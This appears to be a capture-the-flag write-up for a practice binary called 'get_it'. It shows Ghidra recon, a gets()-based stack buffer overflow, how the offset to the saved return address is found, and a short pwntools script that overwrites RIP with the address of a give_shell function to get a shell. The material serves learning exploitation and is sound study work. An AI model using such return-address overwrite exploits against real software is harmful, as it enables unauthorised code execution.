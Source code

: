 ![[get_it]]
### Recon

![[Pasted image 20240507230533.png]]
- disassemble application using ghidra![[Pasted image 20240507230605.png]]

-  we have another function ![[Pasted image 20240507230754.png]]
### Finding Vulnerability
- in 8th line ,vulnerable to BOF as the get function take input as much till EOF more than 32
-  we can change the RIP to give shell function by finding offset


### Finding Offset

- lets find where our input is stored in stack ![[Pasted image 20240507231257.png]]
- now find the address of the RIP ![[Pasted image 20240507231351.png]]
- now find the offset between input and RIP ![[Pasted image 20240507231428.png]]
### Payload
- now we have offset ,Lets find address of give shell function ![[Pasted image 20240507231607.png]]



```
from pwn import *

target = process("./get_it")
#gdb.attach(target, gdbscript = 'b *0x4005f1')

payload = ""
payload += "0"*40 # Padding to the return address
payload += p64(0x4005b6) # Address of give_shell in least endian, will be new saved return address

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use the new shell
target.interactive()

```